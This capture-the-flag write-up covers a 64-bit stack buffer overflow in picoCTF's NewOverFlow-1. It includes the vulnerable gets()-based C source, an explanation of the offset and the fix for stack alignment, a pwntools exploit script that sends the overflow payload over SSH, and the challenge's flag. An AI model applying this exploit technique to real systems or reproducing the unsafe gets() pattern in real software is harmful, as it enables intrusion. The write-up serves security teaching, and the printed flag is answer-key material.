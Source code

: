# NewOverFlow-1: Points: 200

## description

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](./vuln). You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. [Source](./vuln.c).

## solution

This challenge is very similar to OverFlow 1, however, it is slightly complicated by the fact that it is a 64-bit program.
Regardless, the goal is still to overwrite the return address and call the ```flag()``` function.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We know that the buffer size is 64 bytes, and that 8 bytes will be reserved for the RBP, therefore, we can include padding of 72 bytes and start writing our recognisable pattern.
This time, it is ideal to use 8-character chunks as opposed to 4-character chunks, so the string might look like AAAAAAAABBBBBBBBCCCCCCCC...

If we run the program in GDB and check the value if RBP, we'll find that its been overwritten with whichever character was used for padding.
Using this, we know that the return address is begin overwritten with 0x4141414141414141.

We're able to call the ```flag()``` function successfully, however, the program throws a segmentation fault error when trying to print the flag.
This is because the 72-byte payload offset the call stack so that it was no longer a multiple of 16 bytes.

To resolve this, we can remove 8 bytes from the stack by having the function first return to the last line of itself, essentially calling `ret` twice, and writing the address of ```flag()``` directly after that.

## exploit script

This script is similar to the script from OverFlow 1, however, it uses the ```p64()``` function to format the addresses for a 64 bit program.

Note that the address of the last instruction of the ```vuln()``` is our first return address.
As the instruction here is a `ret` instruction, it will immediately read the next value on the stack and return to it, this being the address of the ```flag()``` function.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)
print(vuln.recvline())

print("sending payload")
vuln.sendline(('A'*72).encode() + p64(0x00000000004007e7) + p64(0x0000000000400767) + '\n'.encode())

print("done")
vuln.interactive()
```

Flag: ```picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef}```

